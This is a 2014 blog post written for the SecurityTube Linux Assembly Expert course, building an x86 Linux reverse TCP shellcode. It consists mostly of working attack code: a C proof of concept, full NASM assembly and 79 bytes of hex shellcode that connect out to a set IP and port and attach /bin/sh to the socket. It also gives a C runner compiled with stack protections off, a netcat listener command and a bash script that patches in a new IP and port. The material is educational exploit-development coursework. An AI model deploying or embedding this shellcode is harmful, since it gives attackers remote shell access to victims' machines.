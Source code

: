 ```yaml
---
comments: true
date: 2014-04-04
layout: post
title: 'SLAE Assignment 2: Reverse Bind TCP Shellcode'
summary: '2nd assignment of the SLAE'
tags: [asm-x86,nasm,slae]
---
```


This is the second of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a shellcode that reverse connect to a configured ip and port;
	
  2. The shellcode must execute /bin/sh on successful connection;
	
  3. IP and port number should be easily configurables

The difference between this assignment and the [previous one](http://www.paolostivanin.com/blog/2014/04/03/slae-assignment-1-bind-tcp-shellcode/) is that in the first assignment the shellcode "is a server" so we connect to it using netcat and then a shell is executed and "bound" to the **client terminal** while in this one the shellcode "is a client" so we need netcat running in listen mode on the configured ip and port and after a successful connection a shell **is bound to the server terminal**.

First of all i made a proof of concept of a program that connect to a configured ip (192.168.1.167) and port (7500) and execute /bin/sh on successful connection. I used dup2 to makes 0, 1 and 2 (stdin, stdout and stderr) be the copy of fd.
    
	#define STDIN 0
	#define STDOUT 1
	#define STDERR 2

	int main(void){
		int fd;
		struct sockaddr_in server_addr;
		char *argv[] = { "/bin/sh", NULL };

		server_addr.sin_family = AF_INET;
		server_addr.sin_port = htons(7500);
		server_addr.sin_addr.s_addr = inet_addr("192.168.1.167");

		fd = socket(AF_INET, SOCK_STREAM, 0);

		connect(fd, (struct sockaddr *)&server_addr, 16);

		//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
		dup2(fd, STDIN);
		dup2(fd, STDOUT);
		dup2(fd, STDERR);

		execve(argv[0], &argv[0], NULL);

		return 0;
	}

As you can see in the above PoC, in our shellcode we'll need these syscall:

  1. two `sys_socketcall(int call, unsigned long *args)` where int call will be `SYS_SOCKET` and `SYS_CONNECT` according to `/usr/include/linux/net.h`;
	
  2. three `sys_dup2(int oldfd, int newfd)`;
	
  3. one `sys_execve(char *filename, char *argv[], char *envp[])` where both `*argv[]` and `*envp[]` must be null terminated;

Below there is the complete shellcode:

	;Description:	Assignment #2 (Reverse_Shell_Bind_TCP, 79 bytes)
	;Shellcode:		\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		;socket(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_{SOCKET(1),BIND(2),CONNECT(3),LISTEN(4),ACCEPT(5),...}
		;ecx -> args(AF_INET{/usr/include/bits/socket.h -> 2}, SOCK_STREAM{/usr/include/bits/socket_type.h -> 1}, 0)
		xor edx,edx
		xor ebx,ebx
		push BYTE 0x66 	;sys_socketcall
		pop eax
		inc ebx			;SYS_SOCKET
		push edx		;0
		push BYTE 1 	;SOCK_STREAM
		push BYTE 2		;AF_INET
		mov ecx,esp
		int 0x80
		xchg esi,eax

		;connect(): sys_socketcall(int call, unsigned long *args)
		;eax -> sys_socketcall
		;ebx -> SYS_CONNECT
		;ecx -> args(sockfd{esi}, {sa_family{2},sin_port{7500},sin_address{192.168.1.167}}, 16)
		mov BYTE al,0x66
		inc ebx
		inc ebx					;SYS_CONNECT
		push DWORD 0xa701a8c0	;192.168.1.167
		push WORD 0x4c1d		;port 7500
		push WORD 2				;AF_INET
		mov ecx,esp
		push BYTE 16
		push ecx
		push esi
		mov ecx,esp
		int 0x80

		;dup2 sys_dup2(oldfd, newfd{0[stdin],1[stdout],2[stderr]})
		mov ebx,esi
		push BYTE 2
		pop ecx
		lp:	mov BYTE al,0x3f
		int 0x80
		dec ecx
		jns lp			;SF=0 positive, SF=1 negative. JNS (jump-if-not-sign) will loop while SF=0. When SF is set we reach a negative value so the loop stops.		

		;execve /bin/sh
		mov BYTE al,11
		push edx
		push 0x68732f2f
		push 0x6e69622f
		mov ebx,esp
		push edx
		mov edx,esp
		push ebx
		mov ecx,esp
		int 0x80

I also used [libemu](http://libemu.carnivore.it/) and dot to produce a graph of the execution flow of the shellcode:

[![graph_assign2]({{ site.baseurl }}/images/2014/04/graph_assign2-601x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign2.png)

To assemble, link and get the hex shellcode I used the[ same script of Assignment 1](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/alg-shell.sh).

Before executing the program the C source file must be updated with the newest shellcode:
   
	/* Template for running shellcode
	* Author: Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE Student ID: 526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char shellcode[] = \
	"\x31\xd2\x31\xdb\x6a\x66\x58\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\xb0\x66\x43\x43\x68\xc0\xa8\x01\xa7\x66\x68\x1d\x4c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf3\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80";

	int main(void){
		printf("%zu\n", strlen(shellcode));
		int (*ret)() = (int(*)())shellcode;
		ret();
		return 0;
	}

Now it's time to compile the file with gcc -fno-stack-protector -z execstack main.c -o Reverse_Shell_Bind_TCP (or with [this](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/compile_gcc.sh) script) and then:

  1. open a terminal and type nc -v -l -p 7500
	
  2. execute Reverse_Shell_Bind_TCP

**[![ass2]({{ site.baseurl }}/images/2014/04/ass2-1024x575.png)]({{ site.baseurl }}/images/2014/04/ass2.png)**

The last point of this assignment ask to provide an easily way to configure the ip address and the port number. To accomplish this request I developed this small script:

	#!/bin/bash

	#Description:	Assignment #2 (Reverse_Shell_Bind_TCP, configure ip and port)
	#Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	#SLAE ID:		526

	if [ -z "$1" ]; then
		echo "Usage: $0 <elf-file>"
		exit -1
	fi

	oldip=$(od -t x1 $1|grep -E -o "43 68.{0,12}"|sed 's/\ //g'|sed 's/^.\{4\}//g')
	hexoldip=$(printf '%s' $oldip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')

	oldport=$(od -t x1 $1|grep -o -P "66 68.{6}"|sed 's/\(......\)//g'|sed 's/\ //g')
	hexoldport=$(printf '%s' $oldport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')

	echo "[?] Write IP in dotted format (eg 192.168.1.167): "
	read dotip
	hexip=$(printf '%02x' $(echo ${dotip//./ }))

	echo "[?] Write port number: "
	read port
	hexport=$(printf '%x' $port)

	echo "[+] HEX code of choosed IP: $hexip"
	echo "[+] HEX code of choosed port: $hexport"

	echo "[+] Updating $1 elf..."
	newport=$(printf '%s' $hexport | sed 's/\(..\)/&\\x/' | sed 's/\(\)/&\\x/')
	sed -i "s/\x66\x68$hexoldport/\x66\x68$newport/g" $1
	newip=$(printf '%s' $hexip | sed 's/../&\\x/g' | sed 's/\(\)/&\\x/' | sed 's/..$//')
	sed -i "s/\x43\x68$hexoldip/\x43\x68$newip/g" $1

	echo "[+] All done :)"

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
